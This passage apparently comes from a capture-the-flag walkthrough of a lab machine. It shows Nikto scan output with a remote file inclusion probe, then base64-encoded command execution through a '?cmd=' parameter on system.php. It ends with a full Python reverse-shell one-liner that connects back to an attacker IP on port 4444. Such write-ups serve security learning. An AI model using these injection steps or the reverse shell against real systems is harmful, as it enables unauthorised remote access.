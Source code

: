 ```
+ /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information. See: CWE-552
+ /info.php?file=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ 8102 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2023-03-21 20:36:01 (GMT5.5) (36 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

`robots.txt` contains `?cmd=` on the very last line

let's check `system.php`.   
looks like `system.php` contains nothing, but wait then what was in the `robots.txt`, let's try that.

![img](assets/cmd_id.png)

It shows nothing.    
But wait let's try base64 encoding, as it says `base64 is your best friend` on ftp server.
Go to any base64 encoder website you want, but I persanally recommend to use CyberChef, because it has very simple and minimal UI as well as it is powerful tool for encoding and decoding operations.

[CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=aWQ) giives me this result for id = `aWQ=`

```
http://192.168.56.153/system.php?cmd=aWQ=
```
And boom it shows www-data user's ID

![img](assets/www_id.png)

Now let's try to get which python version installed there by this command (don't forget base64)

`which python3`

```
d2hpY2ggcHl0aG9uMw==
```

Looks like Python3 is installed.

Let's try to get reverse shell 

```
export RHOST="192.168.56.142";export RPORT=4444;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

base64 of above code is: 
